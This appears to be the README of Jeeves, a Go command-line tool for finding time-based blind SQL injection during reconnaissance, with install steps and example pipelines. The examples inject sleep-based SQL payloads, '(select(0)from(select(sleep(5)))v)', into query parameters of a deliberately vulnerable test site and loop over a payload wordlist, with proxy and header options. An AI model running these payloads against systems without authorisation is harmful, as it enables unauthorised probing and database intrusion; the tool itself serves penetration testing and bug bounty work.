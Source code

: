<h1 align="center">Jeeves</h1> <br>

<p align="center">
  <a href="#--usage--explanation">Usage</a> •
  <a href="#--installation--requirements">Installation</a>
</p>

<h3 align="center">Jeeves is made for looking to Time-Based Blind SQLInjection through recon.</h3>
<img src="gojayyyy.png">

## - Installation & Requirements:
```
> go install github.com/ferreiraklet/Jeeves@latest

OR

> git clone https://github.com/ferreiraklet/Jeeves.git

> cd Jeeves

> go build jeeves.go

> chmod +x jeeves

> ./jeeves -h
```
<br>


## - Usage & Explanation:
  * In Your recon process, you may find endpoints that can be vulnerable to sql injection,
  
    * Ex: https://redacted.com/index.php?id=1

    <br>
  
    Jeeves reads from stdin:
    
   
    
    `echo 'https://redacted.com/index.php?id=your_time_based_blind_payload_here' | jeeves --payload-time time_payload`
    <br>
  
    In --payload-time you must use the time mentioned in payload.
 
    <br>
    
    **You can use a file containing a list of targets as well**:
  
    `cat targets | jeeves --payload-time 5`
  
    <br>
    
 * **You are able to use of Jeeves with other tools, such as gau, gauplus, waybackurls, qsreplace and bhedak, mastering his strenght**
    <br>
    * Another examples of usage:
  
    
      ```
       Usage:
       --payload-time,      The time from payload
       --proxy              Send traffic to a proxy
       -H, --headers        Custom Headers
       -h                   Show This Help Message
      ```
       
       
  
    Ex 1 - `echo "http://testphp.vulnweb.com/artists.php?artist=" | qsreplace "(select(0)from(select(sleep(5)))v)" | jeeves --payload-time 5`
    
    <br>
    
    Ex 2 - `echo "http://testphp.vulnweb.com/artists.php?artist=" | qsreplace "(select(0)from(select(sleep(10)))v)" | jeeves --payload-time 10`
    
    <br>
    
    Ex 3 - `echo "http://testphp.vulnweb.com/artists.php?artist=" | qsreplace "(select(0)from(select(sleep(5)))v)" | jeeves --payload-time 5 --proxy "http://179.67.16.10:8081"`
    
    <br>
    
    Ex 4 - `echo "http://testphp.vulnweb.com/artists.php?artist=" | qsreplace "(select(0)from(select(sleep(5)))v)" | jeeves --payload-time 5 --proxy "http://179.67.16.10:8081" -H "User-Agent: xxxx"`
    
    <br>
    
    You can specify more than one header, OBS: Be careful, the syntax must be exact the same, Ex:
    
    Ex 5 - `echo "http://testphp.vulnweb.com/artists.php?artist=" | qsreplace "(select(0)from(select(sleep(5)))v)" | jeeves --payload-time 5 --proxy -H "Testing: testing;OtherHeader: Value;Other2: Value"`
    
    TIP:
    
    Using with sql payloads wordlist
    `cat sql_wordlist.txt | while read payload;do echo http://testphp.vulnweb.com/artists.php?artist= | qsreplace $payload | jeeves --payload-time 5;done`

<br>


## This project is for educational and bug bounty porposes only! I do not support any illegal activities!.

If any error in the program, talk to me immediatly.
